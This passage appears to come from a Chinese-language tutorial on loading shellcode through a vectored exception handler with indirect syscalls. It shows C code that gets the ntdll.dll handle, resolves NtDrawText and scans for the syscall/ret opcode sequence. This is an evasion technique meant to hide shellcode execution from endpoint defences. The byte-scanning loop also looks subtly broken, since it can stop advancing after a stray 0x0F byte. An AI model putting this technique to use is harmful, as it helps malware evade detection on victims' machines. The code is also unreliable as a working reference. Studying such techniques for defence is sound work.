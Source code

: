 原则上，这会在 rax 寄存器中准备 SSN（类似于使用汇编代码 `mov eax，SSN` 的准备），为了后续的 syscall 执行。此过程将重复进行，直到 shellcode 加载程序中使用的或通过 SSN 启动的所有原生 API 都已传递到向量异常处理程序，并在触发`EXCEPTION_ACCESS_VIOLATION`后进行处理。

注意：`NtAllocateVirtualMemory` 的 SSN 不一定必须 0x18，因为同一函数的 SSN 可能因 Windows 和 Windows 版本而异。

## 查找 Syscall 并返回

最后，为了在 VEH 函数 PvectoredExceptionHandler 中执行 SSN（已经在 rax 寄存器中），我们需要找到一种方法将 syscall 指令的内存地址传递给 rip 寄存器。

第一步是使用 Windows API `GetModuleHandleA` 访问 ntdll.dll 内存。下一步是使用 `GetProcAddress` API 访问原生 API，例如 `NtDrawText`。在这种情况下，我们访问哪个 API 并不重要，并且与我们使用哪个原生 API 来保留内存、复制 shellcode、执行 shellcode 等操作是独立的。

```plain
// Retrieve the module handle for ntdll.dll (Windows NT Layer DLL)
HMODULE hNtdll = GetModuleHandleA("ntdll.dll");
if (hNtdll == NULL) {
    printf("Failed to get module handle for ntdll.dll\n");
    exit(-1);
}

// Retrieve the address of the NtDrawText function in ntdll.dll
FARPROC drawtext = GetProcAddress(hNtdll, "NtDrawText");
if (drawtext == NULL) {
    printf("Error GetProcess Address\n");
    exit(-1);
}
```

最终，只需使用 `FindSyscallAddr` 函数访问先前选择的原生 API `NtDrawText` 的基址，然后通过 while 循环使用操作码比较来查找 syscall stub 中的 syscall 和 return 语句。

```plain
// Function to find the syscall instruction within a function in ntdll.dll
BYTE* FindSyscallAddr(ULONG_PTR base) {
    // Cast the base address to a BYTE pointer for byte-level manipulation
    BYTE* func_base = (BYTE*)(base);
    // Temporary pointer for searching the syscall instruction
    BYTE* temp_base = 0x00;           

    // Iterate through the function bytes to find the syscall instruction pattern (0x0F 0x05)
    // 0xc3 is the opcode for the 'ret' (return) instruction in x64 assembly
    while (*func_base != 0xc3) {      
        temp_base = func_base;
        // Check if the current byte is the first byte of the syscall instruction
        if (*temp_base == 0x0f) {     
            temp_base++;
            // Check if the next byte completes the syscall instruction
            if (*temp_base == 0x05) { 
                temp_base++;
                // Check for 'ret' following the syscall to confirm it's the end of the function
                if (*temp_base == 0xc3) { 
                    temp_base = func_base;
                    break;
                }
            }
        }
        else {
            // Move to the next byte in the function
            func_base++;              
            temp_base = 0x00;
        }
    }
    // Return the address of the syscall instruction
    return temp_base;                
}
```